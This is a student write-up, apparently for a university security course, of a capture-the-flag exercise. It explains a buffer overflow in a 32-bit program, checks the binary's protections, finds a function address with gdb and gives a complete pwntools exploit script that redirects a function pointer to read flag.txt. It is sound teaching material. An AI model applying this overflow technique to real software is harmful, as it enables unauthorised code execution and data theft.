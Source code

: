 # CTF5

This document is a brief explanation of our resolution of the Wordpress CTF presented in class during week 5.

## Recognition

We start exploring the program source code and answering this questions:

- **Question1**: Is there any file that is opened and read by the program?

- **Answer**: Yes, there is a file that is opened by the program named `rules.txt`.

- **Question2**: Is there any way to control the file that is opened?

- **Answer**: We can change the file that is opened by redirecting the `fun` pointer, to the function `readtxt` and giving the name of the file that we want to open, `flag.txt`.

- **Question3**: Is there any way to cause a buffer overflow? If yes, what do we can do with that?

- **Answer**: Yes, is possible to cause a buffer overflow because the program allocates a buffer with a size of 32 bytes, but when it reads input using `scanf`, it expects to receive a string of up to 45 characters, which corresponds to 45 bytes. Since the buffer can only hold 32 bytes, providing an input longer than this will cause the data to overflow. Knowing about this possiblity we can create a buffer overflow to redirect the pointer `fun` to the function `readtxt`.

## Searching and Analysing

First we test if the program is safe or have some types of vulnerabilities by running the command `checksec program` and this was what we obtain:

<div align="center">
    <figure>
        <img src="images/CTF5/checksec.png" width="550">
        <figcaption style="font-size: smaller;">Figure 1: Checksec information.</figcaption>
    </figure>
</div>

Here we can observe that the program has some important protection mechanisms deactivated:

 - **RELRO**: Without this, we can perform a GOT overwrite attack, redirecting the execution flow of the program.
 - **Stack Canary**: Here it says that the program has a canary but in the statement of the CTF it says that "the challenge binary does not contain a canary", making it easy to attack.
 - **PIE**: Without the PIE, the program loads at fixed address every time making it predictable and easy to exploit.

The program has some other important protection mechanisms deactivated but this are the most relevant ones for our exploit to be successful.

To achieve the exploit we start by finding the memory address where the function `readtxt` is allocated. To do that we used the `gdb` tool and find out that was address `0x80497a5`.

<div align="center">
    <figure>
        <img src="images/CTF5/readtxt_address.png" width="550">
        <figcaption style="font-size: smaller;">Figure 2: readtxt address.</figcaption>
    </figure>
</div>

We then learn that the buffer has 32 bytes of size by looking at the source code.

This is all we need to perform the exploit.

## Exploit

To carry out the exploit we create a python script where we call the program, build a payload and put the payload in the input of the program.

Here is how the payload is constructed:
- `flag\x00`:
    - The string `"flag"` is followed by a null byte (`\x00`) to end the string.
    - This ensures the `sprintf` function in `readtxt` only processes `"flag"` and ignores the padding that follows.
- `b"A" * (31 - len("flag"))`:
    - This padding fills the rest of the buffer up to 31 bytes.
    - Since `"flag\x00"` is 5 bytes (`4 + 1` for the null byte), we pad with `31 - 5 = 26` bytes of A.
- `p32(0x80497a5)`
    - The little-endian address of `readtxt`
    - This overwrites the return address, redirecting execution to `readtxt`

Payload after construction:
```python
payload = b"flag\x00" + b"A" * (31 - len("flag")) + p32(0x80497a5)
```

To do this exploit we used the `pwntools` library in Python and this was the complete script we use to do this exploit:

```python
#!/usr/bin/python3
from pwn import *

# to attack the remote server
r = remote('ctf-fsi.fe.up.pt', 4000)
# to run locally
#r = process('./program')

readtxt_address = p32(0x80497a5)

flag = b"flag\x00"

payload = flag + b"A" * (31 - len("flag")) + readtxt_address
 
r.recvuntil(b"flag:\n")
r.sendline(payload)

buf = r.recv().decode()
print(buf)
```

With this script we successfully retrieved the flag from the `flag.txt` file.

<div align="center">
    <figure>
        <img src="images/CTF5/flag.png" width="550">
        <figcaption style="font-size: smaller;">Figure 3: Flag founded.</figcaption>
    </figure>
</div>